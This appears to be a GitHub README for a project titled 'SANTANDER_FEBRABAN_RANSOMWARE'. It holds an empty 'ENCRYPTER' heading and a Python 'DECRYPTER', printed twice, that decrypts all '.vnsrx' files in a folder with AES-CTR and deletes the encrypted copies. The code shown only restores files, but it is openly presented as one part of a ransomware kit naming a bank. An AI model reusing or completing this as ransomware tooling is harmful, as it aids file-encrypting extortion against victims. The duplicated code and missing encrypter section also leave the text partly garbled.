 # SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER


DECRYPTER

Python
import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()

   '''c
   import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()
